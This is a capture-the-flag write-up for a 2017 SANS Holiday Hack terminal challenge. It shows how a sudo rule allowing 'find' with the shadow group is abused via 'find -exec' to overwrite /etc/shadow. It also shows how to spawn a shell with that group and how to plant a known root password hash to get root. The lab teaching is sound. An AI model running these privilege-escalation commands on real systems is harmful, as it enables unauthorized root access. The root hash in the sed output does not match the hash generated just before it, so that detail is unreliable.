 * Question
  :PROPERTIES:
  :CUSTOM_ID: we_are_question
  :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

* How to find the terminal
  :PROPERTIES:
  :CUSTOM_ID: we_are_how-to-find-the-terminal
  :END:

From this game: https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5

Direct link: https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

#+BEGIN_CENTER
#+HTML: <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/kVKmTwQ7nNg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
#+END_CENTER

#+CAPTION: The terminal is just behind the starting ramp on the main platform.
[[./images/terminal-location-we_are.png]]

* Background Information
  :PROPERTIES:
  :CUSTOM_ID: we_are_background-information
  :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system {{{abbr(Message of the Day, MOTD)}}} gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

* Goal
  :PROPERTIES:
  :CUSTOM_ID: we_are_goal
  :END:

We need to overwrite =/etc/shadow= with =/etc/shadow.bak=. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC
elf@784e43534178:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

* Hints
  :PROPERTIES:
  :CUSTOM_ID: we_are_approach
  :END:

Shinny Upatree on Twitter has a few hints:

#+HTML: <blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">I think I have some pseudo (sp?) permissions on this Unix server, but I don&#39;t know what that means. <a href="https://twitter.com/GreenesterElf?ref_src=twsrc%5Etfw">@GreenesterElf</a> said this was a &quot;learning opportunity&quot; and won&#39;t give me the answer :&#39;(</p>&mdash; Shinny Upatree (@ClimbALLdaTrees) <a href="https://twitter.com/ClimbALLdaTrees/status/938578359860174848?ref_src=twsrc%5Etfw">December 7, 2017</a></blockquote>

* Approach
  :PROPERTIES:
  :CUSTOM_ID: we_are_approach
  :END:

If we follow the hint, we should try to figure out what commands we can run with =sudo=. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run =sudo= with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC
elf@784e43534178:~$ sudo --list
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC
elf@784e43534178:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The =sudo= output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run =sudo= with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -l -l
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So =sudo= lets us run the find command as the user =elf=, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, =sudo= let us run find without prompting us for a
password. So, we know that we can run commands as the =elf= user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC
elf@784e43534178:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the =root= user and the =shadow= group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC
elf@784e43534178:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

* Solution
  :PROPERTIES:
  :CUSTOM_ID: we_are_solution
  :END:

A one-liner is:

#+BEGIN_SRC
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

* Alternatives
  :PROPERTIES:
  :CUSTOM_ID: we_are_alternatives
  :END:

Instead of using =find= to directly copy the file, we can just use it to start an elevated shell:

#+BEGIN_SRC
elf@784e43534178:~$ id
uid=1000(elf) gid=1000(elf) groups=1000(elf)
elf@784e43534178:~$ sudo -g shadow find -exec bash \;
...
elf@784e43534178:~$ id
uid=1000(elf) gid=42(shadow) groups=42(shadow),1000(elf)
#+END_SRC

This shows how we can use =sudo= and =find= as a general privilege escalation mechanism.

-----

Another way of doing this is by putting in a modified shadow file instead, which will have a password that we know for the =root= user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC
elf@784e43534178:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use =sed= to modify the =/etc/shadow.bak=
file to have that as the password for =root=. Remember to be careful in
escaping special characters in the =sed= command line.

#+BEGIN_SRC
elf@784e43534178:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our =find= command, and find that we can escalate to =root= with a password of ~password~:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@784e43534178:~$ su
Password: 
root@784e43534178:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

* Common Pitfalls
  :PROPERTIES:
  :CUSTOM_ID: we_are_common-pitfalls
  :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that =sudo= is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.


